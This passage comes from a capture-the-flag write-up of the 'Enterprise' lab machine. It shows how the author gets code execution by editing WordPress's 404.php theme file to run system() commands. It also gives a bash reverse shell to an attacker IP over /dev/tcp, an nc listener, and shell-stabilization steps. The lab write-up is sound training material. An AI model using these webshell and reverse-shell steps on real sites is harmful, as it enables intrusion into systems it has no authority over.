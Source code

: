 <br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_047.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_048.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_049.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_050.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_051.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now if I try and successfully access the **WordPress** dashboard. I follow the steps that I already have somewhat recorded in the subconscious to obtain an **RCE**, I just have to modify the **404.php** file, but I can not get any response to verify connectivity to my attacker machine, I try the most common ways to **[generate an error](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress){:target="_blank"}** when accessing a non-existent resource but it does not work, but if accessing the **404.php** file directly. Now I can send a **Reverse Shell** to my machine and access the victim host, then I do a console treatment for better mobility.

> **Attacker Machine:**

```bash
tcpdump -i tun0 icmp -n

# WordPress --> Appearance --> Edithor --> 404.php
#    --> system('ping -c 1 10.10.14.16');
# http://enterprise.htb/404.php     :(
# http://enterprise.htb/oldboy      :(                  Does not work for any Theme!
# http://enterprise.htb/wp-content/themes/twentyseventeen/404.php       :)
# http://enterprise.htb/?p=404.php                                      :)

nc -nlvp 443

#    --> system("bash -c 'bash -i >&/dev/tcp/10.10.14.16./443 0>&1'");
# http://enterprise.htb/?p=404.php            :)
```

> **Victime Machine:**

```bash
whoami
hostname
hostname -I
#    --> 172.17.0.4 --> Container!

script /dev/null -c bash
# [Ctrl^z]
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 29 columns 128
```
